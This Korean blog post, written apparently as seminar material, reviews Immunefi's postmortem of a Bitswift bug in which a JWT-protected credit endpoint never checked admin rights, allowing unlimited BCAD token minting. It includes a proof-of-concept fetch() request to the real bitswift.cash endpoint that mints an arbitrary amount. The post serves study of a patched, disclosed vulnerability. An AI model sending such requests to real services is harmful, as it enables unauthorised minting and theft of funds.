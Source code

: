 ```yaml
---
title:  "Bitswift Unlimited Mint Bugfix Postmortem 리뷰"
excerpt: "Immunefi Bitswift Unlimited Mint Bugfix Postmortem 문서 학습 목적으로 살펴본 내용임"

author: Panda
categories:
  - Security
  - Blockchain
tags:
  - Web
  - Logical Bug
  - Medium Severity
  - Korean
#last_modified_at: 2021-09-23 18:06:00 +09:00
date: 2022-02-17 19:00:00 +09:00
lastmod: 2022-02-17 19:00:00 +09:00
sitemap :
changefreq : daily
priority : 1.0

# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정

#{% figure caption:"Le logo de **Jekyll** et son clin d'oeil à Robert Louis Stevenson"
#  %}
#  ![Le logo de Jekyll]({{"/assets/images_posts/2021-09-23-cve-2021-31956-part1/1.png"| #relative_url}})
#{% endfigure %}
---
```

# Executive Summary
이 문서는 Immunefi사의 기술 블로그중 [Bitswift Unlimited Mint Bugfix Postmortem](https://medium.com/immunefi/bitswift-unlimited-mint-bugfix-postmortem-147a1e57dca9) 문서를 읽고 BEARS 팀내 기술 세미나 자료로 활용하기 위해 작성되었으며, 해당 블로그 내용 공유를 통해 Smart Contract내 취약점 유형을 학습하는데 중점을 두고 작성된 문서입니다.

# Background
## Bitswift(BITS)
* 캐나다 소재 블록체인 기술 기업 주관의 프로젝트(블록체인 네트워크)
  * 국내 회사 [블록체인랩스](https://infrablockchain.com/ko)와 사업 영역이 비슷하게 느껴짐
  * 블록체인랩스는 COOV와 같은 정부 과제를 블록체인기반 솔류션을 제공하는 것을 목표로함
* 기존 사업영역에 블록체인 기술을 제공하는 것이 주요 사업임
* 블록체인 네트워크는 2014년에 런칭됨
* BITS(Bitswift 토큰)은 Bitswift 블록체인과 Bitswift사에서 직접 제공하는 서비스 Bitswift 캐시(크립토 케이트웨이 서비스) 및 관련 제품에 활용됨
  * Bitswift Forging Pool(LZLZ)
  * Bitswift Cash : 다른 다양한 블록체인 네트워크에 접속할 수 있는 게이트웨이 서비스
  * NFTMagic ART : BITS를 지원하는 NFT 시장
  * Sigbro : Ignis, ARDR에 서명된 트랜젝션을 전송할 수 있는 모바일앱

# Introduction
* 2021.12.8.에 보안전문가 Immunefi에 버그 제보
* 제보한 버그는 BCAD 토큰을 무한히 민팅할 수 있고, 해당 토큰을 이용해 지금 liquid 풀에서 다른 토큰을 빼올 수 있음
* Bitswift사는 4,515달러를 보안전문가에게 지급하고 해당 취약점 패치
* 결론부터 이야기 하면 취약점이 너무 단순하기 때문에, 개발자의 실수라고 밖에 생각할 수 없는 그러한 취약점임

# Vulnerability
## Introduction to JWT
* JWT에 대해서는 추가적으로 기술 조사를 별도로 실시 예정(점진적으로 보완), [JSON Web Token관련 공격 블로그](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)도 확인하여 정리실시할 예정임
* JWT는 서버와 클라이언트(브라우저)간 신뢰할 수 있는 정보를 전달하는 목적으로 사용됨
* 아래 그림과 같이 사용자가 ID와 패스워드를 포스트(post) 프로토콜로 전달후, 인증이 성공적으로 통과하면 그림2와 같은 JWT 토큰을 받게 된다.

| ![Image Alt 텍스트]({{"/assets/images_post/2022-02-17-immunefi-bitswift-review/post_request.png"| relative_url}})  |
|:--:| 
| 그림.1 ID, 패스워드 POST REQUEST |


| ![Image Alt 텍스트]({{"/assets/images_post/2022-02-17-immunefi-bitswift-review/jwt_token.png"| relative_url}})  |
|:--:| 
| 그림.2 인증을 통과후 사용자가 받는 JWT 토큰 |

이 후에 사용자가 서비스를 접근할 때 해당 서비스 서버는 헤더의 JWT 속성을 보고 해당 사용자에 대한 서비스 접근 제어를 하게 된다.

| ![Image Alt 텍스트]({{"/assets/images_post/2022-02-17-immunefi-bitswift-review/jwt_header.png"| relative_url}})  |
|:--:| 
| 그림.3 HTML 헤더내 JWT 토큰기반 접근 제어 |

결국 JWT 토큰은 인증 정보를 가지고 다는 것이 되며, JWT 토큰은 주로 프로트엔드 코드내 HTML5 표준에 정의되어 있는 `localstorage` 에 저장된다.

| ![Image Alt 텍스트]({{"/assets/images_post/2022-02-17-immunefi-bitswift-review/jwt_localstorage.png"| relative_url}})  |
|:--:| 
| 그림.4 localstorage에 저장된 JWT 토큰 |

## Bitswift Issue
그럼, 다시 Bitswift 취약점으로 돌아가보자.  
Bitswift는 관리자와 일반 사용자를 구분하기 위해 JWT 토큰을 자기들 서비스에 도입하였다.
서비스 종단에서는 해당 서비스 요청자가 관리자 여부를 확인함으로써 기능을 제한하겠다는 의도로 도입한 것이다.  
그런데 정말 아쉽게도, bcad/credit의 서비스 종단에서는 어떠 권한 확인도 하지 않는다는 것이다. 즉 JWT 토큰을 도입해 놓고 실제로 사용을 하지 않은 것이다.  

```json
{
  “admin”: false,
  “aud”: [
    2625,
    “bitswift.cash”
  ],
  “exp”: 1639641831,
  “iat”: 1639638231,
  “iss”: “bitswift.cash”,
  “jti”: “5tpR-bagAJO4aerV8iFHN5CzVRf_zXdXGVRQjRPwbvU=”,
  “nbf”: 1639638231,
  “sub”: 2625,
  “username”: “immunefi”,
  “verified”: false
}
```

아래 코드는 BCAD내 사용자 인증정보에 대해서 확인하는 함수인데, 해당 사용자가 보유한 Token의 권한이  
admin인지 일반 사용자인지 여부는 관계 없이 해당 토큰이 정상적인 토큰이면, 통과하게 된다.  

```javascript
async confirmCreditSubmit(e) {
    e.preventDefault();
    const multiplier = new BigNumber(1000000);
    const userAmount = new BigNumber(this.state.amount).multipliedBy(multiplier);
    const res = await this.props.apiClient.BCADCredit({
      amount: userAmount.toNumber(),
      unique_message: this.props.user.unique_message,
    }, this.user.accessToken)
    if (res.success === true) {
      this.setState({
        modal: false,
        confirmModal: false,
      });
    } else {
      this.setState({
        error: `Failed to credit BCAD to the user${res.msg ? ‘: ‘ + res.msg : ‘’}`
      });
    }
 }
```

따라서 아래와 같은 취약점을 유발할 수 있는 POST 메세지를 전달하면, 인증을 통과하고 우리가 원하는 갯수만큼  
토큰을 생성(민팅)할 수 있다.

```javascript
let res = await fetch(‘https://bitswift.cash:8443/bcad/credit', {
    method: ‘POST’,
    mode: ‘cors’,
    headers: {
        ‘Content-Type’: ‘application/json’,
        ‘Authorization’: ‘Bearer ‘ + token
    },
    body: JSON.stringify({
      amount: 9999999999999999,
      unique_message: “9C83C69E98A7152693E3AB357649744765456614”, //use your account’s unique message
    }),
    redirect: ‘follow’,
    referrer: ‘no-referrer’,
});
res = await res.text();
console.log(res); //success, despite not being an admin
```

해당 취약점의 경우 Bitswfit사로 부터 $4500 밖에 못 받았는데, 실제적으로 토큰을 새로 생성후  
탈취하는 취약점을 못 찾았기 때문에 금액이 작게 책정된 것이 아닌가?라는 생각이 들었다.

# Lesson
* 아직 블록체인 관련 서비스를 살펴보면 기존 웹영역 PT(Pen-Testing)보다 적은 노력으로 취약점을 발견할 수 있는 기회가 있다.라는 생각이 드는 사례라고 생각합니다.
* 기존 웹서비를 생각하고 설마 이런 것 까지 취약점이 있을까? 라는 선입견을 버리고, 핵심 기능부분은 꼼곰하게 분석하면 정말 쉽게 취약점을 찾을 수 있을 것으로 판단이 됩니다.

# References
* Bitswift 관련 사이트
  *  [https://bitswift.io](https://bitswift.io)
  *  [https://bitswift.tech](https://bitswift.tech/)
  *  [https://bitswift.cash/](https://bitswift.cash/)
  *  [https://nftmagic.art/](https://nftmagic.art/)
  *  [https://bitswift.cash/explorer/blocks](https://bitswift.cash/explorer/blocks)
  *  [https://myaccount.bitswift.network/index.html](https://myaccount.bitswift.network/index.html)
* [https://medium.com/immunefi/bitswift-unlimited-mint-bugfix-postmortem-147a1e57dca9](https://medium.com/immunefi/bitswift-unlimited-mint-bugfix-postmortem-147a1e57dca9)
* [https://infrablockchain.com/ko](https://infrablockchain.com/ko)
* [Hacking JSON Web Token(JWT)](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)